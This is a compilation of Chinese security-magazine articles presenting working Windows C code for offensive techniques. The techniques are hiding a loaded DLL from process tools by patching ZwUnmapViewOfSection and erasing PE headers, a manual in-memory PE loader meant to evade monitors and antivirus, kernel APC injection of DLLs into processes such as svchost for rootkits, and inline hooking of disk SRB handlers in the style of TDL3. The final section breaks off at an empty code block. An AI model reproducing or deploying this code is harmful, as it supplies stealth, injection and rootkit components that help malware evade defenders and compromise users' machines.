新思路也是延续先调用 LoadLibrary 再消除痕迹这一大分支，首先还是先把 DLL 载入内存，如图 1 所示。

```cpp
// load to mem
HMODULE hdll = LoadLibrary("tstDll.dll");
```

图 1

tstDll.dll 是用 VC 模板写的一个测试 DLL，导出一个名为 tstFunc 的测试函数。此时用 OD 查看执行模块是可以看到的，如图 2 所示。

| 基址 | 大小 | 入口 | 名称 | 文件版本 |
|---|---|---|---|---|
| 00400000 | 0000B000 | 004010D1 | myloader |  |
| 10000000 | 0000E000 | 100011CA | tstDll |  |

图 2

那么，接下来就是见证 tstDll 消失的时刻，而且是用最常见的方法，显式卸载，如图 3 所示。

```cpp
// say goodbye to my dear Dll
DWORD *dwZwAddr = (DWORD *)GetProcAddress(LoadLibrary("ntdll.dll"), "ZwUnmapViewOfSection");
DWORD oldZwCode = *dwZwAddr;
DWORD dwOldProtect;
VirtualProtect(dwZwAddr, 1, PAGE_EXECUTE_READWRITE, &dwOldProtect);
*dwZwAddr = 0x909008C2;
FreeLibrary(hdll);


```

图 3

大家一定都注意到了，最末一行调用了 FreeLibrary 函数，直接将 DLL 注销！正如前文所说，最好的隐藏方法，就是真正的不存在，所以，我们 FreeLibrary。等等，FreeLibrary 之后，我们的 DLL 也就不存在了，那又怎么可能调用呢？要说清这个问题，这里就要先了解一下 FreeLibrary 函数的实现过程。

总的来说，FreeLibrary 函数的执行流程分为四步：判断输入句柄是否有效→递减 DLL 的计数→调用 DLL 的 DllMain 响应 PROCESS_DETACH 消息→从进程空间撤销对 DLL 的内存映射。可以看出，前面三步只是扫尾，第四步才真正把 DLL 从内存中清出去。如果等系统替我们把痕迹擦干净了，再阻止它清除 DLL 的内存映射，就可以既清了痕迹又保了 DLL，不是极好的吗？

说办就办。逆向分析 FreeLibrary 函数，发现最后是调用了 ntdll 的包装函数 ZwUnmapViewOfSection 来完成内存注销工作的，函数内容如下，如图 4 所示。
图 4

因为是包装函数，所以内容也简单，不过可操作的空间也小了，这里用最简单的方法，patch 函数首地址，通过 shellcode 技巧直接 retn 8，如图 5 所示。
图 5

到此还没完，现在需要还原 FreeLibrary 函数，不然其它地方再调用就会出问题，如图 6 所示。

```c
// now should recover the syscall
*dwZwAddr = oldZwCode;
VirtualProtect(dwZwAddr, 1, dwOldProtect, &dwOldProtect);
```

图 6

调用自宫后的 FreeLibrary 函数可以很好地完成擦除任务，再看 OD 已经找不到 tstDll 了。调用 DLL 的导出函数也很容易，只要保存好 LoadLibrary 得到的句柄，就能随时通过 GetProcAddress 函数来使用这个理论上已经不存在的 DLL 了。

这种方法只在 patch 时使用了硬编码，通用性较好。当然，这只是最简单的 PoC，有些 DLL 在 DllMain 中还做了一些操作，要保证兼容可能还需做些针对性处理，不过相比其它擦除方法，成本已经相当低了。

最后说说不足。这种方法属于载入后擦除的一种实现，因此不可避免地必须让 DLL 曝光一次，在某些场景这样做会引起麻烦。另外，和 PEB 断链法一样，这种方法只是清除操作系统数据结构中的记录，在内存中仍然保留着完整的 DLL 镜像，如果要对抗内存暴力穷搜，还需要再处理掉 PE 头特征，如图 7 所示。

```c
// f*ck the PE header
DWORD dwSize = sizeof(IMAGE_DOS_HEADER) + sizeof(IMAGE_NT_HEADERS);
VirtualProtect(hdll, dwSize, PAGE_EXECUTE_READWRITE, &dwOldProtect);
memset(hdll, 0, dwSize);
```

图 7

### 思路二的实现

上面是用 ShellCode 技巧 patch 函数 ZwUnmapViewOfSection，实现 DLL 隐藏的思路。

正用心去实测的朋友会发现，这个方法虽然理论上完成了 DLL 卸载，但无法逃避 XueTr 和 ProcessExplorer 的检测。为什么会这样呢？这要从 VAD 说起。VAD 全名虚拟地址描述符（Virtual Address Descriptor），是一组标记进程内存空间使用情况的数据结构，以二叉树的形式组织。如果正常调用 ZwUnmapViewOfSection，那么内存地址所对应的 VAD 就会从树中摘除。

现在问题就来了，上面我们阉割的正是这枚 API，结果造成 VAD 没被正常删除的后遗症，这样内存查看工具很容易就会发现隐藏的 DLL。难道真的就不能偷懒搭系统的顺风车，捡现成的便宜吗？坚持才是黑客的浪漫，一定会有一条折衷办法的。仔细想想，现在最大的问题，就是既保住 DLL 的内存镜像，又要 ZwUnmapViewOfSection 函数能够顺利清理 DLL 的内存空间。

这看起来是个不可调和的矛盾，其实不然。只要内存镜像保存在其它地方，就仍由 ZwUnmapViewOfSection 函数随意糟蹋原来的内存空间了。相信很多朋友看到这里已经恍然大悟，没错，只要拷贝内存镜像即可，如图 8 所示。

```c
VirtualAlloc(hdll, dwImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(hdll, dwMBuff, dwImageSize);
```

图 8

代码很好理解，先申请镜像大小的内存空间，再从 DLL 的首地址开始复制。镜像大小是现成的，可以从 PE 头中获取，如图 9 所示。

```c
IMAGE_DOS_HEADER *dosHeader = (IMAGE_DOS_HEADER *)hdll;
IMAGE_NT_HEADERS *ntHeaders = (IMAGE_NT_HEADERS *)((DWORD)hdll + dosHeader->e_lfanew);
DWORD dwImageSize = ntHeaders->OptionalHeader.SizeOfImage;
```

图 9

接下来还是 FreeLibrary，不过这次不用事先 patch 了。完成这步以后，打开 XueTr 和 ProcessExplorer，这两款利器也无法查找到我们的 DLL 了，看来这次的隐藏效果要好很多，真正满足了不存在才是最好的隐藏。

我们通过从有到无躲过检查，现在再从无到有恢复 DLL 的可用性，只要把 DLL 镜像复制回原地址即可，如图 10 所示。

```c
VirtualAlloc(hdll, dwImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(hdll, dwMBuff, dwImageSize);
```

图 10

请注意这次的 VirtualAlloc，第一个参数为 hdll，也即 DLL 载入时的原地址，这样就可以指定申请内存的起始地址为原地址了。由于只是内存数据复制，没有向 VAD 树添加内容，所以检测工具就无从得知隐藏 DLL 已经悄悄官复原职了。

功能性的代码讲解完毕，最后再探讨一下将 DLL 复制回原地址的必要性。其实在我能想到的测试场景，不管是载入的原地址还是通过 API 申请的新地址，只要知道了 DLL 镜像的起始地址，就能正常调用 DLL 的导出函数了。不过最后还是选择将镜像移回原址，认为原封不动兼容性总是最好的，而且编码量也很少。如果黑防的读者能找到迁回或者不迁回更好的理由，希望能共同讨论。

这个方法的不足之处同样是需要将 DLL 曝光一次，以及无法对抗内存暴力穷搜。前者无解，后者可以通过抹掉 PE 特征降低被发现几率，实现方法上面已经给出，就不赘述了。

（完）

### Ring3 下实现 PE Loader

文/换心

Windows 系统中，程序运行时一般都需要加载 DLL，加载方式通常分为两种：隐式加载和显式加载。应用程序在初始化阶段，会根据导入表（IAT）加载所需的 DLL 以及这些 DLL 导入的其他 DLL，这属于隐式加载。显式加载是指应用程序内部代码显式调用 LoadLibrary 或 LoadLibraryEx 加载一个指定的 DLL。不管是隐式加载还是显式加载，其实质都是通过调用 LoadLibrary 来实现。

如若我们想实现一种不利用 LoadLibrary 就将 DLL 加载入进程的方法，并且使类似 Procmon.exe 等进程监控工具无法查看到加载的 DLL，就需要手动编程，模拟 LoadLibrary 的内部实现。通过对 LoadLibrary 的逆向分析，可以获得 Windows 系统中 DLL 加载的详细步骤，主要分为三个阶段，具体如下：

- 前期工作：参数检查，UNICODE 字符处理，看是否已加载、是否为 KnownDll。
- 映射部分：搜索 DLL，打开 DLL 文件并根据文件句柄分配内存区域，映射 DLL 到内存，获得 DLL 的入口地址并保存到数据表中，将 DLL 入口加入进程已加载模块列表中。
- 执行部分：载入其所引用的其他 DLL，修改 IAT 表项，更新 DLL 引用计数，查询执行选项，调用 DLL 初始化函数。

为了使加载的 DLL 对系统进程监控工具透明，在自己编码实现时，对于映射部分的“将 DLL 入口加入进程已加载模块列表”不予实现即可达到目的，接下来的部分将结合源码来讲解整个工具的实现过程。

首先是定义 DLL 加载入内存之后的结构体，如下所示。

```c
typedef struct {
    PIMAGE_NT_HEADERS headers; // DLL 的 PE 文件头
    unsigned char *codeBase;   // DLL 载入内存的基址
    HMODULE *modules;          // 模块句柄
    int numModules;            // 模块个数
    int initialized;           // 是否已初始化
} MEMORYMODULE, *PMEMORYMODULE;
```

首先将 DLL 文件读入内存，按 HMEMORYMODULE 结构体进行存储。接下来判断待加载的 DLL 是否为一个正常的 PE 文件，通过对“MZ”和“PE”标识进行检查实现。接着按照 DLL 文件中指定的加载基址为 DLL 申请内存空间，如果失败则任意申请一块内存，在后面对基址进行修正，并进行重定位。接着提交内存，将文件映像读入内存，并更新地址标识位的值。接下来把 DLL 的节块拷贝到新的内存块中，调整导入数据的地址。接下来看该 DLL 是否引用了其他 DLL，如果有，将这些 DLL 也加载入内存，并修改其导入表中函数的地址。然后根据节表信息来标记内存页，并且释放不需要的节块。最后获取已加载 DLL 的入口点，将 DLL 附加到进程中。整个函数实现如下：

```c
HMEMORYMODULE MemoryLoadLibrary(const void *data)
{
    PMEMORYMODULE result;
    PIMAGE_DOS_HEADER dos_header;
```

```c
PIMAGE_NT_HEADERS old_header;
unsigned char *code, *headers;
SIZE_T locationDelta;
DllEntryProc DllEntry;
BOOL successful;

dos_header = (PIMAGE_DOS_HEADER)data;
// 判断待加载 DLL 是否为一个正常的 DLL
if (dos_header->e_magic != IMAGE_DOS_SIGNATURE) {
#if DEBUG_OUTPUT
    OutputDebugString("Not a valid executable file.\n");
#endif
    return NULL;
}

old_header = (PIMAGE_NT_HEADERS)&((const unsigned char *)(data))[dos_header->e_lfanew];
if (old_header->Signature != IMAGE_NT_SIGNATURE) {
#if DEBUG_OUTPUT
    OutputDebugString("No PE header found.\n");
#endif
    return NULL;
}

// 为 DLL 申请内存空间
code = (unsigned char *)VirtualAlloc((LPVOID)(old_header->OptionalHeader.ImageBase),
    old_header->OptionalHeader.SizeOfImage,
    MEM_RESERVE,
    PAGE_READWRITE);

if (code == NULL) {
    // 如果在指定基地址处申请内存失败，则另外申请一块内存
    code = (unsigned char *)VirtualAlloc(NULL,
        old_header->OptionalHeader.SizeOfImage,
        MEM_RESERVE,
        PAGE_READWRITE);

    if (code == NULL) {
#if DEBUG_OUTPUT
        OutputLastError("Can't reserve memory");
#endif
        return NULL;
    }
}

result = (PMEMORYMODULE)HeapAlloc(GetProcessHeap(), 0, sizeof(MEMORYMODULE));
result->codeBase = code;
result->numModules = 0;
result->modules = NULL;
result->initialized = 0;

// 为 DLL 的映像 commit 内存
VirtualAlloc(code,
    old_header->OptionalHeader.SizeOfImage,
    MEM_COMMIT,
    PAGE_READWRITE);

// 为 DLL 的 PE 头 commit 内存
headers = (unsigned char *)VirtualAlloc(code,
    old_header->OptionalHeader.SizeOfHeaders,
    MEM_COMMIT,
    PAGE_READWRITE);

// 将 PE 头 copy 到 code 中
memcpy(headers, dos_header,
    dos_header->e_lfanew + old_header->OptionalHeader.SizeOfHeaders);

result->headers = (PIMAGE_NT_HEADERS)&((const unsigned char *)(headers))[dos_header->e_lfanew];

// 更新 DLL 加载的基址
result->headers->OptionalHeader.ImageBase = (POINTER_TYPE)code;

// 把 DLL 文件中的节拷贝到新的内存块中
CopySections(data, old_header, result);

// 调整导入数据的地址
locationDelta = (SIZE_T)(code - old_header->OptionalHeader.ImageBase);
if (locationDelta != 0) {
    PerformBaseRelocation(result, locationDelta);
}

// 加载该 DLL 所引用的其他 DLL，并修改导入表中函数的地址
if (!BuildImportTable(result)) {
    goto error;
}

// 根据节表信息来标记内存页，并且释放标记为 "discardable" 的节块
FinalizeSections(result);

// 获取已加载 DLL 的入口点
if (result->headers->OptionalHeader.AddressOfEntryPoint != 0) {
    DllEntry = (DllEntryProc)(code + result->headers->OptionalHeader.AddressOfEntryPoint);
    if (DllEntry == 0) {
#if DEBUG_OUTPUT
        OutputDebugString("Library has no entry point.\n");
#endif
        goto error;
    }
}

// 将 DLL 附加到进程中
successful = (*DllEntry)((HINSTANCE)code, DLL_PROCESS_ATTACH, 0);
if (!successful) {
#if DEBUG_OUTPUT
    OutputDebugString("Can't attach library.\n");
#endif
    goto error;
}
result->initialized = 1;

return (HMEMORYMODULE)result;

error:
    // 卸载 DLL
    MemoryFreeLibrary(result);
    return NULL;
}
```

其中调用 CopySections() 函数来完成将节数据拷贝入内存，调用 PerformBaseRelocation() 进行重定位，调用 BuildImportTable() 加载引用的其他 DLL 并修改导入表中的函数地址，调用 FinalizeSections() 初始化内存中的节。最后，若在分配内存成功之后，其他步骤出现了失败的情形，则调用 MemoryFreeLibrary() 来卸载 DLL。

最后，还需要一个函数来获取加载 DLL 中导出函数的地址，实现如下：

```c
// 根据输入函数名来获取函数地址
FARPROC MemoryGetProcAddress(HMEMORYMODULE module, const char *name)
{
    unsigned char *codeBase = ((PMEMORYMODULE)module)->codeBase;
    int idx = -1;
    DWORD i, *nameRef;
    WORD *ordinal;
    PIMAGE_EXPORT_DIRECTORY exports;
    PIMAGE_DATA_DIRECTORY directory =
        GET_HEADER_DICTIONARY((PMEMORYMODULE)module, IMAGE_DIRECTORY_ENTRY_EXPORT);

    if (directory->Size == 0) {
        // 没有导出表的情形
        return NULL;
    }

    exports = (PIMAGE_EXPORT_DIRECTORY)(codeBase + directory->VirtualAddress);
    if (exports->NumberOfNames == 0 || exports->NumberOfFunctions == 0) {
        // 没有导出数据的情形
        return NULL;
    }

    // 在导出表的名字中搜索匹配函数名
    nameRef = (DWORD *)(codeBase + exports->AddressOfNames);
    ordinal = (WORD *)(codeBase + exports->AddressOfNameOrdinals);
    for (i = 0; i < exports->NumberOfNames; i++, nameRef++, ordinal++) {
        if (stricmp(name, (const char *)(codeBase + (*nameRef))) == 0) {
            idx = *ordinal;
            break;
        }
    }

    if (idx == -1) {
        // 没有找到
        return NULL;
    }

    if ((DWORD)idx > exports->NumberOfFunctions) {
        // 名称和序号不符
        return NULL;
    }

    // 将 RVA 转换为内存地址
    return (FARPROC)(codeBase + (*(DWORD *)(codeBase + exports->AddressOfFunctions + (idx * 4))));
}
```

下面是一个调用实例。

```cpp
void LoadFromMemory(void)
{
    FILE *fp;
    unsigned char *data = NULL;
    size_t size;
    HMEMORYMODULE module;
    ShowMe showMe; // 从 DLL 中导出的 API

    // 打开 DLL 文件
    fp = fopen(DLL_FILE, "rb");
    if (fp == NULL)
    {
        printf("Can't open DLL file \"%s\".", DLL_FILE);
        goto exit;
    }

    // 读取 DLL 文件的内容
    fseek(fp, 0, SEEK_END);
    size = ftell(fp);
    data = (unsigned char *)malloc(size);
    fseek(fp, 0, SEEK_SET);
    fread(data, 1, size, fp);
    fclose(fp);

    // 载入内存并加载
    module = MemoryLoadLibrary(data);
    if (module == NULL)
    {
        printf("Can't load library from memory.\n");
        goto exit;
    }

    // 获取 DLL 导出函数 ShowMe 的地址
    showMe = (ShowMe)MemoryGetProcAddress(module, "ShowMe");
    showMe();
    MemoryFreeLibrary(module);

exit:
    if (data)
        free(data);
}
```

在运行完 showMe() 之后会弹出一个对话框，表示 DLL 已经成功加载并可以使用 DLL 导出的函数。此时采用 Procmon.exe 查看进程模块，将无法看到该 DLL 模块。

本文演示的只是一种用手动编程加载 DLL 而不是使用 LoadLibrary 的方法，这其实也是从内存加载 DLL 的方法。在此基础上，结合进程注入，可以让某个进程加载特定的 DLL，而不会被杀软等系统监控软件拦截。

### 利用 APC 从内核向应用程序插入 DLL

文/图 宇妖

内核是 Rootkit 经常光顾的地方，那里有无上的权利（不考虑 Ring -1 之类的）。一段内核代码几乎无所不能，可以摧毁任何安全软件的防护，可以做到深度隐藏等。Rootkit 的目的是保护病毒木马，因此，Rootkit 在一些情况下需要将病毒木马引导起来，甚至在其他的进程空间里面引导，如将木马程序注入到 svchost 进程空间。

本文介绍一种常见的内核唤起应用程序的方法——APC。向指定线程插入 APC 是引导应用层代码的方法之一，经过多个著名 Rootkit（如 TDL 系列）验证可行。虽然很多病毒使用 APC 技术进行实战，但仍要注意的是，凭空制造一个 APC 插入已有线程，有可能造成该线程紊乱、崩溃。读者有兴趣可以自己做个实验，写一个测试应用程序，多个线程在等待，然后用本文给出的驱动程序或者其他相关驱动程序向该测试应用程序插入 APC，看看各个等待线程是如何被打断原有工作的。这个实验可以加深读者对“插入 APC”方法的本质了解。

下面本文介绍一个 APC 使用实例。

## 准备 APC

准备 APC 包括 APC 数据结构的填充和应用层相关信息的获取。

- 1. **APC 数据结构的填充**  
  调用 KeInitializeApc 即可，一段典型的 APC 初始化代码如下：

```c
pApc = (PKAPC)ExAllocatePool(NonPagedPool, sizeof(KAPC));
if (!pApc)
{
    DbgPrintEx(LOGMACRO, "ExAllocatePool failure.\n");
    goto _exit;
}

_KeInitializeApc(pApc, (PRKTHREAD)pPayPara->pThread, OriginalApcEnvironment,
    (PKKERNEL_ROUTINE)((ULONG)ApcKernelRoutine), NULL,
    (PKNORMAL_ROUTINE)pPayPara->LoadLibraryExAAddr, UserMode, pBaseAddr);

_KeInsertQueueApc(pApc, NULL, NULL, IO_NO_INCREMENT);
```

_KeInitializeApc 为动态获取的 KeInitializeApc 地址，这个函数的原型如下：

```c
VOID
KeInitializeApc(
    __out PRKAPC Apc,
    __in PRKTHREAD Thread,
    __in KAPC_ENVIRONMENT Environment,
    __in PKKERNEL_ROUTINE KernelRoutine,
    __in_opt PKRUNDOWN_ROUTINE RundownRoutine,
    __in_opt PKNORMAL_ROUTINE NormalRoutine,
    __in_opt KPROCESSOR_MODE ApcMode,
    __in_opt PVOID NormalContext
)
```

其中，Thread 指定了待插入的目标线程；KernelRoutine 指定了内核态下运行的函数；NormalRoutine 指定了用户态运行的函数；NormalContext 则是 NormalRoutine 的参数。

在本文示例中，NormalRoutine 即是 LoadLibraryExA，NormalContext 即是 LoadLibraryExA 的第一个参数 `"c:\\test.dll"`。需要注意的是，保存 `"c:\\test.dll"` 这一个字符串的空间应该在 Thread 所在进程空间里，所以需要在目标进程上下文中分配空间。

```c
InitializeObjectAttributes(&oa, NULL, OBJ_KERNEL_HANDLE, NULL, NULL);
cid.UniqueProcess = pPayPara->hProcessID;
cid.UniqueThread = 0;
ntStatus = ZwOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &oa, &cid);
if (!NT_SUCCESS(ntStatus))
{
    DbgPrintEx(LOGMACRO, "ZwOpenProcess failure.\n");
    goto _exit;
}

uSize = sizeof(cDll);
ntStatus = ZwAllocateVirtualMemory(hProcess, &pBaseAddr, 0, &uSize,
    MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!NT_SUCCESS(ntStatus))
{
    DbgPrintEx(LOGMACRO, "ZwAllocateVirtualMemory failure.\n");
    goto _exit;
}

KeStackAttachProcess((PKPROCESS)pPayPara->pProcess, &ApcState);
memcpy(pBaseAddr, cDll, sizeof(cDll));
pPayPara->LoadLibraryExAAddr = GetLoadLibraryExAaddrFromPEB(Data, hProcess);
KeUnstackDetachProcess(&ApcState);
```

关于上述代码中的目标对象（进程、线程）将在下文（触发 APC）介绍。LoadLibraryExA 地址的获取方法很多，本文示例使用的方法是枚举进程的所有模块，找到 kernel32 模块，然后从 kernel32 的导出函数中找到 LoadLibraryExA 的地址。

### 2. 应用层相关信息获取

上文在介绍初始化 APC 的时候，提到 LoadLibraryExA 地址的获取方法。方法很多，只要能找到 kernel32 模块的基址，再从 kernel32 的导出表中找到目标函数即可。需要注意的是，kernel32 的基址在 ASLR 机制下，每次重启计算机都会改变，因此不能使用硬编码。另外，驱动代码在访问 user-mode 的进程空间时，应该明确进程上下文，本文示例中调用 KeStackAttachProcess 函数绑定了进程空间。GetLoadLibraryExAaddrFromPEB 函数代码如下：

```c
PVOID GetLoadLibraryExAaddrFromPEB(GlobalData *Data, HANDLE ProcessHandle)
{
    NTSTATUS ntStatus;
    ULONG uRet, uLen;
    PVOID pFnAddr = NULL;
    PROCESS_BASIC_INFORMATION pbi;
    PPEB pPeb;
    PPEB_LDR_DATA pLdr;
    LIST_ENTRY *pEntry;
    PLDR_DATA_TABLE_ENTRY pDataEntry;
    WCHAR wKernel32[] = {L'K', L'e', L'r', L'n', L'e', L'l', L'3', L'2', L'.', L'd', L'l', L'l', 0};

    UNICODE_STRING us1;
    PZwQueryInformationProcess _ZwQueryInformationProcess = NULL;
    RtlInitUnicodeString(&us1, L"ZwQueryInformationProcess");
    _ZwQueryInformationProcess = (PZwQueryInformationProcess)MmGetSystemRoutineAddress(&us1);
    if (NULL == _ZwQueryInformationProcess)
    {
        goto _exit;
    }
```

```c
// 获取进程所有模块的信息
ntStatus =
_ZwQueryInformationProcess(ProcessHandle, ProcessBasicInformation,
                    &pbi, sizeof(PROCESS_BASIC_INFORMATION), &uRet);
if (!NT_SUCCESS(ntStatus))
{
    goto _exit;
}
RtlInitUnicodeString(&us1, wKernel32);
pPeb = (PPEB)pbi.PebBaseAddress;
if (pPeb == NULL)
{
    goto _exit;
}
pLdr = pPeb->Ldr;
pEntry = pLdr->InLoadOrderModuleList.Flink;
while (pEntry != &pLdr->InLoadOrderModuleList)
{
    pDataEntry = (PLDR_DATA_TABLE_ENTRY)pEntry;
    if (pDataEntry->LoadCount <= 0 || !pDataEntry->DllBase)
    {
        pEntry = pEntry->Flink;
        continue;
    }
    // 遍历模块，找到 kernel32
    if (RtlCompareUnicodeString(&us1, &pDataEntry->BaseDllName, TRUE) == 0)
    {
        pFnAddr = GetProcedureAddressByHash(
                    pDataEntry->DllBase, H_LoadLibraryExW);
        break;
    }
    pEntry = pEntry->Flink;
}
_exit:
    return pFnAddr;
}
```

本文示例找到 kernel32 基址后，调用 GetProcedureAddressByHash 函数通过 kernel32 导出表找到 LoadLibraryExA 的地址（注：GetProcedureAddressByHash 来自互联网）。

再介绍一种简单的方法从 kernel mode 获取 kernel32 基址，读者有兴趣可以自己实现。在驱动程序中设置一个 load image 回调，新的进程被创建时会有 kernel32 模块。这个方法的缺点是需要在驱动安装后再执行一个程序触发，不过如果驱动程序是开机自启动，那么就肯定能获取到 kernel32 的基址了。

## 触发APC

在上文介绍初始化 APC 的时候，有一个非常重要的参数 Thread 没有介绍获取方法。本小节详细介绍此参数的获取方法。

APC 的负面效果本文已经简单介绍过，可能会引起被插入线程的紊乱、崩溃，如果遍历进程的线程列表，插入 APC，那就非常危险了。一般做法是选择一个符合 APC 触发条件并且带来最小负面影响的线程。

首先需要知道 APC 的触发条件：线程在 user mode 等待，并且线程是 alertable，那么在目标进程中找到一个这样的线程就比较简单了。

```c
for (i = 0; i < pProcessInfo->NumberOfThreads; ++i)
{
    ntStatus = PsLookupThreadByThreadId(
        pThreadInfo->ClientId.UniqueThread, (PETHREAD*)&pThread);
    if (!NT_SUCCESS(ntStatus))
    {
        goto _nextProcess;
    }
    ObfDereferenceObject(pThread);
    if (
        // State
        (*(UCHAR*)((ULONG)pThread + Data.uStateOffset) == 5) &&
        // WaitMode
        (*(UCHAR*)((ULONG)pThread + Data.uWaitModeOffset) == 1) &&
        // Alertable
        (((*(UCHAR*)((ULONG)pThread + Data.uAlertableOffset)) & Data.AlertableMask) == 0)
       )
    {
        break;
    }
    ++pThreadInfo;
}


```

上述代码片段中，在目标进程中搜索符合这样条件的线程：state 为 5（即 wait），wait mode 为 1（即 user mode），并且是非 alertable 的。本文将 user mode 等待的线程分为两类：一类是 alertable，一类是非 alertable。其中，alertable 的线程符合 APC 触发的条件，但并不是非 alertable 的线程就一定不能使用，正如本文介绍的，可以人为将此线程修改为 alertable。直接选用第一类线程和修改第二类线程并没有太大区别，都有可能带来不稳定。

那么，稳定的 APC 怎么插入呢？笔者曾经逆向过一些 Rootkit 和 AV 软件，向读者介绍其中一种方法供参考。在 hitmanpro 这款 AV 平台软件中，就使用了 APC 技术来 WinExec 一个用户态的程序 kickstart.exe。作为一款商用软件，它是如何选择线程的呢？从笔者的分析来看，hitmanpro 主要通过判断线程的 wait reason 实现的，如图 1 所示。
图1

通过判断线程的 wait reason 是否是 0x0f 或者 0x10 来选择线程，0x0f 即 WrQueue，而 0x10 即 WrLpcReceive（可以参考 KWAIT_REASON 这个枚举类型）。也许读者可以从判断 wait reason 中得到一些启发。注意，hitmanpro 是将 APC 插入到 services.exe 进程中的，并且不停地遍历 services 所有线程，查询是否有满足条件的线程。在系统正常运行状态中，这段代码似乎不会发挥作用，但随机器重启可以，读者有兴趣可以尝试。

## 重定向SRB读写请求

文/ 子妖

实现 SRB 读写重定向的一个直接方法便是挂钩磁盘小端口驱动的 SRB 处理函数（IRP_MJ_SCSI）。本文就是采用 inline hook 磁盘小端口驱动的 IRP_MJ_SCSI 处理函数或者其 StartIO 函数以实现 SRB 访问的重定向。

### 初始化

初始化工作主要是找到磁盘小端口驱动的驱动对象。本文首先获取磁盘驱动的 FDO 设备，然后根据 FDO 设备找到 PDO 设备，而 PDO 设备正是磁盘小端口驱动创建的，从而找到磁盘小端口驱动的驱动对象，相关代码如下。

```c
Data->DRxDevice = GetFdoDiskDevice(Data);
if (NULL == Data->DRxDevice)
{
    DbgPrintEx(LOGMACRO, "GetFdoDiskDevice failure.\n");
    return STATUS_UNSUCCESSFUL;
}
pDiskPDO =
((PAVGER_DEVOBJEXT)Data->DRxDevice->DeviceObjectExtension)->AttachedTo;
while (pDiskPDO &&
((PAVGER_DEVOBJEXT)pDiskPDO->DeviceObjectExtension)->AttachedTo)
{
    pDiskPDO =
((PAVGER_DEVOBJEXT)pDiskPDO->DeviceObjectExtension)->AttachedTo;
}
if (NULL == pDiskPDO)
{
    DbgPrintEx(LOGMACRO, "pDiskPDO is NULL.\n");
    return STATUS_UNSUCCESSFUL;
}
Data->PdoDiskDevice = pDiskPDO;

pDiskDev = pDiskDrv->DeviceObject;
while (pDiskDev)
{
    pDeviceExtension = pDiskDev->DeviceExtension;
    if (NULL != pDeviceExtension)
    {
        if (
            pDeviceExtension->CommonExtension.IsFdo &&
            pDeviceExtension->DiskGeometry.MediaType == FixedMedia
        )
        {
            return pDiskDev;
        }
    }
    pDiskDev = pDiskDev->NextDevice;
}
```

磁盘的 FDO 设备获取方法与 TDL3 一样，通过枚举磁盘驱动的所有设备，找到符合特定条件的设备。

### 挂钩处理函数

找到磁盘小端口驱动的驱动对象后，进行 inline hook。

```c
if (gData.PdoDiskDevice->DriverObject->DriverStartIo)
{
    ntStatus = InlineHookFn(
        gData.PdoDiskDevice->DriverObject->DriverStartIo);
}
else
{
    ntStatus = InlineHookFn(
        gData.PdoDiskDevice->DriverObject->MajorFunction[IRP_MJ_SCSI]);
}
```

Inline hook 的方法相信读者都知道，稳定的 inline hook 一直是一个讨论的话题，要处理好多核以及多线程的问题。笔者在本文中推荐一种稳定的 inline hook 方法，利用微软的热补丁实现，这个方法网上早已有了，而且在多个 Rootkit 中已经使用。

```c
NTSTATUS InlineHookFn(PVOID FunctionAddress)
{
    NTSTATUS   ntStatus = STATUS_UNSUCCESSFUL;
    BYTE       *pProxyJmpLoc;
    BYTE       *pCode = NULL, *pProxyJmp = NULL;
    ULONG      uAttr;
    BYTE       jmp_orig_code[7] = { 0xEA, 0, 0, 0, 0, 0x08, 0x00 };
    PMDL       pMdlProxy = NULL, pMdlCode = NULL;
    if (*(WORD*)FunctionAddress != 0xff8b) // 8bff  mov    edi,edi
    {
        return STATUS_UNSUCCESSFUL;
    }

    pProxyJmpLoc = (BYTE*)((ULONG)HookedIRPHandler);
    do
    {
        if ((*pProxyJmpLoc == 0xaa) && (*(ULONG*)pProxyJmpLoc == 0xaaaaaaaa))
        {
            break;
        }
    } while (++pProxyJmpLoc);

    pMdlCode = IoAllocateMdl((PVOID)((ULONG)FunctionAddress - 5),
                             9, FALSE, FALSE, NULL);
    if (NULL == pMdlCode)
    {
        goto _exit;
    }

    pMdlProxy =
        IoAllocateMdl((PVOID)pProxyJmpLoc, 7, FALSE, FALSE, NULL);
    if (NULL == pMdlProxy)
    {
        goto _exit;
    }

    MmBuildMdlForNonPagedPool(pMdlCode);
    MmBuildMdlForNonPagedPool(pMdlProxy);

    pCode =
    (BYTE*)MmMapLockedPagesSpecifyCache(pMdlCode, KernelMode, MmCached,
                                        NULL, 0, (MM_PAGE_PRIORITY)0);

    pProxyJmp =
    (BYTE*)MmMapLockedPagesSpecifyCache(pMdlProxy, KernelMode,
                                        MmCached, NULL, 0, (MM_PAGE_PRIORITY)0);

    if (!pCode || !pProxyJmp)
    {
        goto _exit;
    }
    pCode[0] = 0xe9;
    *(ULONG*)((ULONG)pCode + 1)
        = ((ULONG)HookedIRPHandler) - (ULONG)FunctionAddress;
    *((ULONG*)(jmp_orig_code + 1)) = (ULONG)FunctionAddress + 2;
    memcpy(pProxyJmp, jmp_orig_code, 7);
    _InterlockedExchange((LONG*)((ULONG)pCode + 5), 0x8b55f9eb);
    ntStatus = STATUS_SUCCESS;
_exit:
    if (pCode)
    {
        MmUnmapLockedPages(pCode, pMdlCode);
    }
    if (pProxyJmp)
    {
        MmUnmapLockedPages(pProxyJmp, pMdlProxy);
    }
    if (pMdlCode)
    {
        IoFreeMdl(pMdlCode);
    }
    if (pMdlProxy)
    {
        IoFreeMdl(pMdlProxy);
    }
    return ntStatus;
}
```

原理就是利用代码间隙中的 NOP 指令写一些 hook 的跳转指令。这种方法的好处是实际只修改了目标函数开始处的 2 个字节，可以在一个原子操作内完成，避免多核的打架，而且限定在第一条指令范围内，也避免了多线程的问题。

关于这种利用 NOP 指令实现稳定 inline hook 的方法，还可以再扩展以适应不同的环境，比如要挂钩的目标函数开头处不是 mov edi,edi，前面也不是 NOP 指令；比如 x64。扩展的主要思路是在一个字节的寻址范围内（-128~127）搜索 5 个长度的 NOP 指令，而 x64 下则在一个字节寻址范围内搜索 14 个字节的 NOP 指令，如果搜索不到 14 个字节，可以拆分为 6+8 个，读者有兴趣可以扩展一下试试，还是比较有价值的，可以做到稳定的 x86/x64 inline hook。当然，如果目标函数第一条指令只有一个字节，那么还是有小概率的 BSoD 风险。

挂钩完成自然要进行过滤，本文提供了实现过滤的函数供读者参考。

```c
